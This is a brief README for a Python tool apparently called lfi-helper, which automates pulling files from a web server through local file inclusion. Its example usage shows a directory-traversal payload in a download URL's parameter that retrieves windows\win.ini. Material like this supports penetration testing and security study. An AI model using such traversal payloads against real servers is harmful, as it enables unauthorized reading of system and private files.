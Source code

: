 lfi-helper
==========

Quick and dirty python script to help automate pulling files through LFI

example usage
==========

Please enter the base url you want to start in: http://example.com/downloadfile.php?fn=..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\

filepath~> windows\win.ini

Content Length: 92

Saved file to windows-win.ini

filepath~>
